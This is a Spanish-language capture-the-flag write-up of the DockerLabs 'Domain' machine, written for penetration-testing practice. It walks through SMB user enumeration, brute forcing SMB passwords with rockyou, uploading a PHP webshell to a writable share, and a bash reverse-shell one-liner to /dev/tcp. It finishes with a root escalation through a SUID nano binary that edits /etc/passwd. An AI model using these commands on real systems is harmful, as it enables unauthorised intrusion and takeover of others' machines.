





# Writeup de la máquina Domain realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [DockerLabs](https://dockerlabs.es/)
- **Nivel de Dificultad**: Medio
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 04/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Técnicas utilizadas

- Fuga de nombres de usuario SMB con Rpcclient

- Fuerza bruta a SMB con Netexec

- Abusar de permisos mal configurados en SMB para subir un archivo PHP malicioso

- Abusar de un binario SUID (Nano) [Escalada de privilegios a root]

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL que es igual a 64, reconocemos que es una máquina Linux:

```
ping -c 1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```



Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos:

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```


Si accedemos al servicio web nos encontramos con lo siguiente:

```
http://<IP>
```


Si realizamos una enumeración web con gobuster no encontraremos nada:

Búsqueda de ficheros php,pdf,html o txt:



Búsqueda de directorios:


Búsqueda de subdominios:


Como no encontramos nada por http, vamos a intentar conseguir el acceso por el servicio de samba:

```
smbclient -L //<IP> -N
```


Como podemos observar, tenemos la capacidad de ver ciertos recursos compartidos a nivel de red sin credenciales, podemos intentar conseguir más detalles con netexec o smbmap, sin embargo no veremos nada nuevo:

```
netexec smb <IP> --shares
```

```
smbmap -H <IP>
```


Vamos a intentar enumerar usuarios con rpcclient (rpcclient es una herramienta de línea de comandos en Kali Linux que permite enumerar usuarios, grupos, recursos compartidos y otros datos de Samba.):

```
rpcclient -U '' -N <IP>
```

```
querydispinfo and enumdomusers
```


## 2. Explotación

Ahora teniendo usuarios podemos realizar un ataque de fuerza bruta con mayor facilidad:

```
netexec smb <IP> -u 'bob' -p '/usr/share/wordlists/rockyou.txt' --ignore-pw-decoding
```


```
netexec smb <IP> -u 'james' -p '/usr/share/wordlists/rockyou.txt' --ignore-pw-decoding
```


Teniendo las credenciales de bob, vamos a ver que permisos tenemos usando smbmap:

```
smbmap -H <IP> -u 'bob' -p 'star'
```


Si enumeramos el contenido del directorio html veremos que es donde se encuentra el index.html del servicio http:

```
smbmap -H <IP> -u 'bob' -p 'star' -r html
```


Viendo que tenemos permisos de escritura, vamos a subir un archivo php malicioso, así que creamos el archivo php:



Ahora subimos el archivo con smbclient:

```
smbclient //172.17.0.2/html -U bob%star -c 'put cmd.php'
```



Probamos a ejecutar comandos a través del servicio http:


Viendo que tenemos ejecución remota de comandos, vamos a enviarnos una shell (tenemos que estar en escucha con netcat):

```
netcat -lvnp 443
```

```
bash -c "bash -i >%26 /dev/tcp/<IP>/<PUERTO> 0>%261"
```


Realizamos un tratamiento de la tty para mayor comodidad con la shell:

```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
```


Ahora cambiamos el tamaño de filas y columnas de la tty, en una terminal de nuestra máquina atacante ponemos el siguiente comando:

```
stty size
```


Y en la máquina víctima hacemos lo siguiente:

```
stty rows <filas> columns <columnas>
```


## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en el usuario root mediante una escalada de privilegios. 

Como primera enumeración vamos a ver los permisos asignados a nivel de sudoers:

```
sudo -l
```


Después buscamos por ficheros con permisos SUID:

```
find / -perm -4000 2>/dev/null
```


Vemos que nano tiene permisos SUID, por lo que podemos usarlo para escalar privilegios modificando el /etc/passwd:

```
nano /etc/passwd
```


Quitamos la x de la linea de root:



Accedemos como root:

```
su root
```


